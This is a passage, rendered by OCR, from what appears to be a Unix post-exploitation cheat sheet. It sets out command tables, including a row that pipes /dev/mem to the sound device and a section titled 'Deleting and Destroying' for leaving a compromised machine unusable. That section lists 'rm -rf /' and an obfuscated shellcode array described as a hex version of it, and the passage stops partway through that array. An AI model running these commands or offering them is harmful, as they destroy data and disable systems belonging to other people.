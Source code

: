+-----------------------------------+-----------------------------------+
| cat /dev/core \> /dev/audio       | Makes a sound from the memory     |
|                                   | content.                          |
| cat /dev/mem \> /dev/audio        |                                   |
|                                   | *Usefullness of this???*          |
+-----------------------------------+-----------------------------------+

Deleting and Destroying
=======================

*(If it is necessary to leave the machine inaccessible or unusable)*

*Note that this tends to be quite evident (as opposed to a simple
exploitation that might go unnoticed for some time, even forever), and
will most surely get you into troubles.*

*Oh, and you're probably a jerk if you use any of the stuff below.*

+-----------------------------------+-----------------------------------+
| **Command**                       | **Description**                   |
+-----------------------------------+-----------------------------------+
| rm -rf /                          | This will recursively try to      |
|                                   | delete all files.                 |
+-----------------------------------+-----------------------------------+
| char esp\[\] \_\_attribute\_\_    | Hex version of rm -rf /           |
| ((section(".text"))) /\* e.s.p    |                                   |
| release \*/ =                     | *How is this supposed to work?*   |
| "\\xeb\\x3e\\x5b\\x31\\xc0\\x50\\ |                                   |
| x54\\x5a\\x83\\xec\\x64\\x68″     |                                   |
|                                   |                                   |
| "\\xff\\xff\\xff\\xff\\x68\\xdf\\ |                                   |
| xd0\\xdf\\xd9\\x68\\x8d\\x99″     |                                   |
|                                   |                                   |
| "\\xdf\\x81\\x68\\x8d\\x92\\xdf\\ |                                   |
| xd2\\x54\\x5e\\xf7\\x16\\xf7″     |                                   |
|                                   |                                   |
| "\\x56\\x04\\xf7\\x56\\x08\\xf7\\ |                                   |
| x56\\x0c\\x83\\xc4\\x74\\x56″     |                                   |
|                                   |                                   |
| "\\x8d\\x73\\x08\\x56\\x53\\x54\\ |                                   |
| x59\\xb0\\x0b\\xcd\\x80\\x31″     |                                   |
|                                   |                                   |
| "\\xc0\\x40\\xeb\\xf9\\xe8\\xbd\\ |                                   |
| xff\\xff\\xff\\x2f\\x62\\x69″     |                                   |
|                                   |                                   |